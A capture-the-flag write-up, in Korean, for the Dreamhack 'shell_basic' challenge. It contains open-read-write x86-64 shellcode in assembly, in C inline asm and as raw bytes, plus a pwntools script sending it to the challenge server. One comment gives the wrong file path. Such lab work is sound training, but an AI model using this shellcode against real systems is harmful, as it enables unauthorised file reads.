

# wargame : shell_basic

section .text
global _start
_start:
push 0x0
mov rax, 0x676E6F6F6F6F6F6F

push rax
mov rax, 0x6C5F73695F656D61

push rax
mov rax, 0x6E5F67616C662F63

push rax
mov rax, 0x697361625F6C6C65

push rax
mov rax, 0x68732F656D6F682F
push rax

mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall

mov rdi, rax
mov rsi, rsp
sub rsi, 0x30
mov rdx, 0x30
mov rax, 0x0
syscall

mov rdi, 1
mov rax, 1
syscall

**asm**(
".global run_sh\n"
"run_sh:\n"

```
"push 0x0\\n"
"mov rax, 0x676E6F6F6F6F6F6F \\n"
"push rax\\n"
"mov rax, 0x6C5F73695F656D61 \\n"
"push rax\\n"
"mov rax, 0x6E5F67616C662F63 \\n"
"push rax\\n"
"mov rax, 0x697361625F6C6C65 \\n"
"push rax\\n"
"mov rax, 0x68732F656D6F682F \\n"
"push rax\\n"
"mov rdi, rsp    # rdi = '/tmp/flag'\\n"
"xor rsi, rsi    # rsi = 0 ; RD_ONLY\\n"
"xor rdx, rdx    # rdx = 0\\n"
"mov rax, 2      # rax = 2 ; syscall_open\\n"
"syscall         # open('/tmp/flag', RD_ONLY, NULL)\\n"
"\\n"
"mov rdi, rax      # rdi = fd\\n"
"mov rsi, rsp\\n"
"sub rsi, 0x30     # rsi = rsp-0x30 ; buf\\n"
"mov rdx, 0x30     # rdx = 0x30     ; len\\n"
"mov rax, 0x0      # rax = 0        ; syscall_read\\n"
"syscall           # read(fd, buf, 0x30)\\n"
"\\n"
"mov rdi, 1        # rdi = 1 ; fd = stdout\\n"
"mov rax, 1        # rax = 1 ; syscall_write\\n"
"syscall           # write(fd, buf, 0x30)\\n"
"\\n"
"xor rdi, rdi      # rdi = 0\\n"
"mov rax, 0x3c	   # rax = sys_exit\\n"
"syscall		   # exit(0)");

```

void run_sh();

int main() { run_sh(); }

- 위처럼 스켈레톤 코드 안에 셸코드를 채워넣은 c파일을 컴파일후 objdump -d 파일명, 이런식으로 셸코드를 추출한다. 필요한 부분인 orw가 실행되는 부분인 run_sh()함수 부분만 추출한다.
    
    
    
    ```
    from pwn import *
    
    context.arch = "amd64"
    p = remote("host1.dreamhack.games", 22901)
    
    shellcode = b"\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\xc7\xc2\x30\x00\x00\x00\x48\xc7\xc0\x00\x00\x00\x00\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05"
    p.sendlineafter('shellcode: ', shellcode)
    print(p.recv())
    ```
    

- 추출하는 다른 방법으론(문제에 소개된) 먼저 asm파일(스켈레톤 코드X)을 .o파일로 기계어화 시킨다.(nasm -f elf64 exp.asm)
- 이후 Byte Code화 한다( objcopy —dump-section .text=exp.bin exp.o)
- xxd로 값을 따온다. (xxd exp.bin)
- 이후 pwntools로 코드 작성.